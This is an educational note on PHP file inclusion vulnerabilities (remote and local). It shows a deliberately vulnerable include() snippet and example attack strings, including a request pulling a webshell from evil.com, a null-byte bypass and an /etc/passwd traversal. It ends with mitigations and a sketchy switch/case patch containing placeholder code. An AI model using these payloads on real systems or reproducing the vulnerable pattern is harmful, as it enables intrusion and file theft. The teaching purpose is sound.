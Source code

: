 # File inclusion vulnerability

## Features 

- commonly found on run time
- different from **directory traversal attack**
    - d.t.a : is a way of gaining unauthorized file system access
    - f.i.v : suberts how an application loads code for **execution**
- A **successful** exploitation of a file inclusion vulnerability can result in **remote code execution**, and attacker can use remote code execution to create a *webshell* on that web server.



## Types

1. Remote file inclusion (**RFI**): RFI usually occurs when the web application downloads and executes a remote file. These remote files usually obtained in the form of an **HTTP** or **FTP** URI as a user-supplied parameter to the web application.
2. Local file inclusion (**LFI**): LFI is similar to RFI except instead of including remote files, only local files. i.e. files on the current server can be included for execution. This issue can still **lead to RFI** by including a (local) file that contains attacker-controlled data such as **the web server's access log**.



## How 

### 1. PHP:

1. *Most notable*(NOT ALL) are the `include` and `require` statements.
2. Use a URL to retrieve data from remote locations:
    1. PHP <= 4.3.4: `allow_url_fopen = On`, **enable by default**.
    2. PHP >= 5.2.0: `allow_url_include` , but fortunately, in 5.X this directive is **disabled by default**.
3. Attacker will alter a variable that is passed to one of these functions to cause it to include malicious code from a remote host.
4. **HOW TO MITIGATE**: **all** user input **needs to be validated** before being used! **Users can not be trusted!**

#### Example:

Server:

```php
<?php
   if ( isset( $_GET['language'] ) ) {
      include( $_GET['language'] . '.php' );
   }
?>
```

client:

```html
<form method="get">
   <select name="language">
      <option value="english">English</option>
      <option value="french">French</option>
      ...
   </select>
   <input type="submit">
</form>
```

The developer intended to read in `english.php` or `french.php`, which will alter the application's behavior to display the language of the user's choice. But it is possible to inject another path using the `language` parameter.

**A few ways to attack this**

1. `?language=http://evil.com/webshell.txt?` - injects a remotely hosted file containing malicious code (**RFI**)
2. `?language=C:\\ftp\\upload\\expolit` - executes code from an already uploaded file called 'exploit.php' (**LFI**)
3. `?language=C:\\data.txt%00` - using **NULL meta character** to remove the `.php` suffix, allowing access to files other than .php. **BTW**: this use of null byte injection was patched in PHP 5.3, and can no longer be used for LFI/RFI attacks!!!
4. `?language=../../../../etc/passwd%00` - allows attackers to read the contents of the `/etc/passwd` file through a **directory traversal attack**.
5. An attacker can also modify a [HTTP](https://en.wikipedia.org/wiki/HTTP) header (such as `User-Agent`) in this attack to be PHP code to exploit [remote code execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

**Solution to mitigate this vulnerability**

1. use a whitelist of accepted language parameters. 
2. do input filtering
3. rely upon validation of the passwd-in path to make sure it **does not contain ** unintended characters and character patterns.
4. [**best**] use a predefined **switch/case** statement to determine which file to include rather than use an URL  or form parameter to dynamically generate the path.

**Patch it!**

Server:

```php
<?php
    if (isset($_GET['language']){
        switch ($_GET['language']){
            case 'english':
                xxx;
            case 'french':
                xxx;
            ...
        }
    }
?>
```

